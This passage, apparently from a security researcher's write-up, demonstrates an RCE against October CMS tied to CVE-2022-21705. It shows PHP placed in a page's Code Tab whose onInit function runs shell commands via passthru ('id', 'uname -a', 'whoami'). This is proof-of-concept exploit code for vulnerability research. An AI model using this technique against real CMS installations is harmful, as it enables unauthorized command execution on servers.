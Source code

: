 By smuggling the arbitrary PHP command in a PoC page through the **Code Tab**, I found another RCE vulnerability based on the aforementioned CVE, which was existed due to the no validation of running arbitrary PHP commands.

## [CVE-2022-21705 Exploit](#cve-2022-21705-exploit)

To begin, I created a page `/poc-rce` the CMS.

![20250518154532.png](/assets/octobercms-cves/20250518154532.png)

Then, I created two codes in the CMS within the following
- **Markup Tab**
    ```php
    <?php
    // jruk lmao haha
    ?>
    ==
    markup_content, nothing to see here.
    ```
- **Code Tab**
    ```php
    <?php
    function onInit() {
        passthru('id');
        passthru('uname -a');
        passthru('whoami');
    }
    ==
    Hello World.
    ```

Finally, I saved the new `/poc-rce` endpoint and access to it, in order to verify.

![20250518155100.png](/assets/octobercms-cves/20250518155100.png)
